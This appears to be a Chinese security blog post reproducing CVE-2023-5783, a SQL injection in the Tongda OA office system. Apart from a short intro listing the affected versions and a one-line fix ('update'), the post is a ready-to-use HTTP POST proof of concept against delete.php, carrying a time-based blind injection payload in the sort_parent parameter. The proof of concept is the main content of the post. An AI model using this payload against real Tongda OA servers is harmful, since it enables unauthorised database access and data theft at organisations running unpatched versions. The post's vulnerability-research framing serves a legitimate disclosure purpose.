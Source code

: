 #  【漏洞复现】通达OA SQL注入漏洞（CVE-2023-5783）   
紫色皓月  皓月的笔记本   2023-11-26 23:00  
  
声明：请勿将文章内的相关技术用于非法目的，如有相关非法行为与文章作者和本公众号无关。请遵守《中华人民共和国网络安全法》。  
  
0X01 简介  
  
通达OA（Office Anywhere网络智能办公系统）是由北京通达信科科技有限公司自主研发的协同办公自动化软件，是与中国企业管理实践相结合形成的综合管理办公平台。  
  
  
  
官网：  
  
https://www.tongda2000.com/  
  
  
漏洞编号：  
  
C  
VE-2023-5783  
  
  
  
影响范围：  
  
通达OA >= 2017版  
  
通达OA < 11.10  
  
  
复现环境：  
  
通达OA 2017版  
  
  
0X02   
漏洞复现  
  
漏洞利用需登录。  
  
POC：  
```
POST /general/system/approve_center/flow_sort/flow/delete.php HTTP/1.1
Host: 192.168.245.134
Cookie: USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=bf11e55b; _csrf=fb9605328bee63ab5b949c268b858d698cf75170a848c7b0882a2b8a14d66f71a%3A2%3A%7Bi%3A0%3Bs%3A5%3A%22_csrf%22%3Bi%3A1%3Bs%3A32%3A%22dJ8hKTNoKf_MTAQdu5ag7otcWNXsBgUm%22%3B%7D; creat_work=new; SID_66=1ca61957; PHPSESSID=ba68o12ogg8co6hg47dbvc77i4
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 160

id=1&sort_parent=1%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)

id与sort_parent两个参数不能为空，两个参数都可以注入
右下角看延时
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPIa14BCsFvSOA7QejLe5ucoY5LG20pSmdlWHD2gHbK7LnRgkibUKTTVm29Jfn3fq3xUpsZ8xic7gJNQ/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPIa14BCsFvSOA7QejLe5ucoXDRkZW8A9r9649IPtggq9A1yV15X67WZmdna9cEbAjlicxcrhAZmzOg/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPIa14BCsFvSOA7QejLe5ucoz93PLoAiatiagKW27zVGDe86mPs1PV1ZtXvUfhSazyBOS4MtGwDH51WQ/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPIa14BCsFvSOA7QejLe5uco5IVwrzk9sycNXagv5rbl4hv89ONjwbnyZxFe9chpUgEUIzIczEIRng/640?wx_fmt=jpeg&from=appmsg "")  
  
  
0X03 修复建议  
  
更新至最新版！  
  
  
0X04 写在最后  
  
  
回复“加群”，获取群号。  
  
侵删！  
  
  
  
